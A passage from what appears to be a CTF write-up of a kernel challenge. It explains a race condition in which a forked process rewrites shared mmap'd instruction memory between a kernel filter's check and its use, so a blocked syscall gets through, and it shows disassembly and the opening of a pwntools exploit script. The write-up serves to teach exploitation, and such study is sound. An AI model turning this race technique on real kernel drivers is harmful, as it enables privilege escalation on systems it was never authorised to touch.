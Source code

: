 Where `state->code` is actually the allocated `vmalloc` memory region, that is exposed to userspace via `mmap`. While inspecting its disassembly carefully, we can note the following:

```c
add rax, [rdi +100h]  // v3 (current instruction)
mov dl, [rax + 1]  // Syscall type
test byte ptr [rax], 0x20  // Check for Opcode type == Syscall?
```

But recall the memory region content, denoted by `rax`, is actually controlled by userspace. In particular, since we can `mmap` this region to multiple users, with `MAP_SHARED`, multiple processes would be able to write towards this underlying memory region. If `P1` would request a blocked syscall type by the syscall filter, such as `Syscall.READ_MEM`, and at the same time, `P2` would constantly write to this exact instruction memory address the value of some garbage opcode, that is NOT a `Syscall`, the check might pass:

```bash
mov dl, [rax + 1]  # P1_kernel: dl = READ_MEM
mov [rax], FAKE_INST  # P2_user: write fake inst
test byte ptr [rax], 20h  # P1_kernel: [rax] != 0x20, check passes, flow continues
mov [rax], ORIG_INST  # P2_user: restore original inst
k_syscall()  # P1_kernel: executes desired syscall instruction! 
```

This means that by using `fork` within userspace, we can create a new process `P2`, that maps the same `ioctl` memory region as `MAP_SHARED`, constantly writing `0x20` and other garbage byte at the exact offset where the desired syscall to be bypass resides, within the yancode. \
By calling `fork` right after popping the shared map region within the userspace shellcode, we can achieve exactly this. 

```python
#!/bin/python

from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from tempfile import TemporaryFile
from pwn import *
import os, sys
import struct
import time
import shutil
import binascii
import signal
import array
import textwrap
import string
import logging
# BINARY = glob('/challenge/toddler*')[0]
BINARY = '/challenge/toddlersys_level2.0'
# LIBC = '/challenge/lib/libc.so.6'
GDB_SCRIPT= '''
set follow-fork-mode child
set print elements 0
handle SIG33 nostop noprint

c
'''

context.arch = 'amd64'
# libc = ELF(LIBC)
# libc_rop = ROP(LIBC, badchars=string.whitespace)

@dataclass
class Regs:
    a = b'\x04'
    b = b'\x02'
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html
